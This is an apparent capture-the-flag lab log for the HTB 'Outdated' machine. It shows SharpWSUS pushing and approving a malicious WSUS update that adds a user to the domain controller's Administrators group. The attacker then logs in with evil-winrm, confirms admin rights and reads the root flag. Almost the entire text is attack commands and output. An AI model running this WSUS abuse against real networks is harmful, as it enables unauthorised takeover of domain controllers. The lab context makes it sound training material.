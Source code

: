 ```powershell

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:Target.FQDN /groupname:"Group Name"

[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:Target.FQDN

[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:Target.FQDN /groupname:"Group Name"

[*] Create complete


*Evil-WinRM* PS C:\Windows\Tasks> ./SharpWSUS.exe approve /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:dc.outdated.htb /groupname:"Administrators"

[*] Action: Approve Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
Group Exists = False
Group Created: Administrators
Added Computer To Group
Approved Update

[*] Approve complete


➜  outdated evil-winrm -i outdated.htb -u 0xpthree -p Password123!
*Evil-WinRM* PS C:\Users\0xpthree\Documents> whoami
outdated\0xpthree

*Evil-WinRM* PS C:\Users\0xpthree\Documents> whoami /groups
Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
a6c2f6e1b2d05b537f337ba2f8209413
```